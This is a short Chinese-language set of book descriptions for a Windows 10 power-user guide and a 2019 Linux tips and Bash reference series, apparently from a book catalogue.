  描述：本书是针对微软 Windows 10 操作系统的高级用户指南。适用于所有计算机知识水平的读者，包含了关于如何充分利用新操作系统的技巧和技巧。

- **高级用户指南：Windows 10 秘籍（第二版）**


# 描述
本书是微软 Windows 10 操作系统原始高级用户指南的更新版。它包含了来自秋季创作版（Fall Creators Edition）的所有最新信息。它仍然适用于所有知识水平的读者。包含了更多关于如何充分利用新操作系统的技巧和技巧。

## 高级用户指南：Linux 技巧、黑客术与秘密（2019年版）终极版 [第1卷 & 第2卷]
这本书有三个版本：第 1 卷是 Bash 系统管理版；第 2 卷是 Bash 系统参考版；还有一个终极版，包含了第 1 卷和第 2 卷的所有内容。

## 高级用户指南：Linux 技巧、黑客术与秘密（2019年版）[第1卷]
第 1 卷 Bash 系统管理版适用于想要学习 Linux（为了工作面试 [例如 Linux 系统管理员或工程师、DEVOPS、DEVSECOPS 等] 或创建 IoT 设备）或已经使用多年的人士。本书适用于所有想要开始学习并精通 Linux 操作系统和 Bash Shell 的读者，同时也学习如何利用高级功能。这本书旨在帮助你快速上手或在不浪费时间的情况下提升你现有的技能。

## 高级用户指南：Linux 技巧、黑客术与秘密（2019年版）[第2卷]
第 2 卷是 Bash 系统参考版，包含了数百个命令的参考、示例、技巧和注释，让你对所涵盖的命令或主题有额外的见解。本书还包含了一个超过 600 多个 Linux 命令的全面快速参考（带示例）。此外，还针对多个高级主题包含了若干 Linux 及相关的快速入门指南，包括应用程序、网络主题、Bash 键盘快捷键等大量内容。
